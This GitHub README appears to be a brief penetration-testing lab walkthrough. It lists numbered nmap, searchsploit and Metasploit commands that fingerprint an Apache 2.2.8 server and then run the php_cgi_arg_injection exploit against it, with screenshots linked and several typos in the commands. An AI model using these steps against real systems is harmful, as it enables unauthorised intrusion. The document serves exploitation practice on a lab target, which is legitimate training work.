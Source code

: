 # Port-80-Apache-httpd-2.2.8-Ubuntu-DAV-2-
1.nmap -sV <target>
![image](https://github.com/thanawut2903/Port-80-Apache-httpd-2.2.8-Ubuntu-DAV-2-/assets/159118913/ed73a494-3aa2-405b-a96c-bf2da1a41fc1)
2.msfconsole
3.msf 6 > search http scanner
![image](https://github.com/thanawut2903/Port-80-Apache-httpd-2.2.8-Ubuntu-DAV-2-/assets/159118913/f6206cc9-5230-439f-a2a2-bd396aa22138)
4.msf 6 > use auxiliary/scanner/http/http_version
5.show optios
6.set rhost <target>
![image](https://github.com/thanawut2903/Port-80-Apache-httpd-2.2.8-Ubuntu-DAV-2-/assets/159118913/14ea3484-821a-4902-9097-a6f897e569b1)
7.searchsloit apache 2.2.8 | grep php
![image](https://github.com/thanawut2903/Port-80-Apache-httpd-2.2.8-Ubuntu-DAV-2-/assets/159118913/872acefe-0a3d-410a-b24e-ea703d38ae84)
8.msf 6 > search apache 2.2.8
9.msf 6 > exploit/multi/http/php_cgi_arg_injection
![image](https://github.com/thanawut2903/Port-80-Apache-httpd-2.2.8-Ubuntu-DAV-2-/assets/159118913/4ba22dd0-365d-43bc-98dc-8beed3cfbd52)
10.msf 6 > set RHOST <traget>
11.msf 6 > exploit
![image](https://github.com/thanawut2903/Port-80-Apache-httpd-2.2.8-Ubuntu-DAV-2-/assets/159118913/f5196182-44d1-49eb-9ae9-ffd840adb73c)
